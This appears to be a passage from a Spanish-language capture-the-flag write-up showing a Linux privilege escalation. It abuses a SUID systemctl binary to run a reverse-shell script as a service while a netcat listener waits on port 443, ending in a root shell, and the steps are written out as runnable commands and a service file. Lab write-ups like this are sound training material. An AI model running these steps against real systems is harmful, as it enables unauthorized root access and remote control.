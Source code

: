 Vemos que systemctl es SUID y que tiene proprietario root

```bash
cd 
mkdir privesc
cd privesc
cp /tmp/reverse.sh privesc.sh
```

Aqui nos vamos a crear un systemctl service file -> `nano privesc.service`

```bash
[Unit]
Description=EEEEEEEe

[Service]
ExecStart=/home/pepper/privesc/privesc.sh

[Install]
WantedBy=multi-user.target
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un link del servicio

    ```bash
    systemctl link /home/pepper/privesc/privesc.service
    ```

1. Lanzamos el servicio

    ```bash
    systemctl enable --now /home/pepper/privesc/privesc.service
    ```


`whoami` -> root ;)
